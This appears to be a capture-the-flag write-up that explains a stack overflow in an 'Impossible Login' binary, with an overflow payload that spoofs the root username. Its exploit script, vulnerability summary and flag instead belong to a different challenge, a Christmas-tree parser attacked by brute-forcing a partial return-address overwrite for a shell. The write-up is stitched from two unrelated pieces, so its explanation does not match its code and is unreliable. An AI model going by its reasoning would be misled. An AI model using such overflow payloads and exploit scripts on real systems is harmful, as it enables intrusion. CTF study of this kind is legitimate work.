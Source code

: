 # Impossible Login - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ImpossibleLogin.gif)

---

## Challenge Summary

The goal is to log in as `root`, which is normally blocked. Due to a stack overflow in the `password` input, it's possible to overwrite the `username` variable and bypass the restriction. By padding the password with `root` at the right offset, the program accepts the login and reveals the `root` flag.

## Binary Information

```bash
$ file logmein
```

![Alt text](img/2.png)

```bash
$ pwn checksec logmein
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

In IDA Pro, the `main` function performs the following:

- Prompts for a **username** using `scanf("%s", username)` into a 24-byte buffer.
- If the input equals `"root"`, login is denied via `strncmp(username, "root", 4)`.
- Then prompts for a **password**, read into a 32-byte buffer (`scanf("%s", password)`).
- Both variables are stored on the stack; `username` is located just after `password`.
- The `login()` function compares the input credentials to a list stored in a global array `creds[]` using `strncmp()`.

![Alt text](img/4.png)

![Alt text](img/5.png)

Because `scanf` does not enforce length restrictions, inputting a long password overflows into `username`, allowing us to spoof `"root"` even if the original username wasn't `"root"`. The comparison uses `strncmp()` with the real length of `user/pass`, so partial matches suffice. If credentials match, `motd()` prints a personalized flag.

![Alt text](img/6.png)

---

## Exploit Strategy

## Exploit Strategy

1. **Username:** Can be any value (e.g., `junk`), as it’s not checked critically.

2. **Password Overflow:**

   - Overflow the `password` buffer (32 bytes) to overwrite the `username` buffer with `"root"`.
   - The password should be `"cant_guess_this"` followed by padding to write `"root"` into the `username`.

3. **Payload:**

   - Username: `junk`
   - Password: `cant_guess_thisAAAAAAAAAAAAAAAAAroot`

4. **Flag Retrieval:**

   - Once `"root"` is set as the username, the `motd()` function displays the root user's flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)



while True:
    io = start()


    io.recvuntil(b'Welcome! What would you like to do? : ')
    io.sendline(b"display")
    io.recvuntil(b'Please enter your encoded christmas tree : ')
    io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
    for i in range(3) :
        io.recvline()

    try:
        io.sendline(b"cat flag.txt")
        flag = io.recvline().strip()
        #log.success(f"FLAG : {flag.decode()}")
        log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

        break

    except:
        io.close()


```

---

## Exploit Output

![Alt text](img/7.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
